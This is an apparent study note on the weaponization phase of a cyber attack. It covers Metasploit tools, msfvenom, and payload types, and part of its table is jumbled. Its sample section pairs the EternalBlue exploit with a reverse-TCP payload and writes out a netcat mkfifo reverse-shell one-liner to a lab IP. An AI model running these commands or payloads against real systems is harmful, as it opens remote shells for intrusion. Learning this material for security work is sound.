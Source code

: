 
# 2-Weaponization

```
    INPUT             |      PROCESS                 |       TOOLS                           |      OUTPUT
----------------------|------------------------------|---------------------------------------|------------------
    Information       |     Creation of Weapon       |       Vulnerability Repositories      |      Weapon
    Network map       |                              |       Development                     |      
        IPs           |                              |       msfconsole                      |
        Ports         |                              |       msfvenom                        |
        Services      |3-Delivery
        Firewalls     |
        Users         |
    Vulnerability     |            
```                                                
                                                    
[Weapon]             [Exploit]        An exploit is a code that is written to take advantage of a specific Vulnerability in a system.
                     [Payload]        Payload is the code that actually does something.    
                        [RS]         Reverse Shell that need 
                        [Malware]    Malicious Software
[Msfvenom]           Standalone payload generator
[Windows]            Weapon types: WSH, HTA, VBA, PSH


# Sample

- ms17-010 [CVE-2017-0143]
    - TOOLS       msfconsole     
    - Exploit     exploit/windows/smb/ms17_010_eternalblue 
    - Payload     windows/x64/shell/reverse_tcp
- Online Book Store 1.0 - Unauthenticated Remote Code Execution
    - TOOLS       Python   
    - Exploit     https://www.exploit-db.com/exploits/47887  
    - Payload     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.56.2 4444 > /tmp/f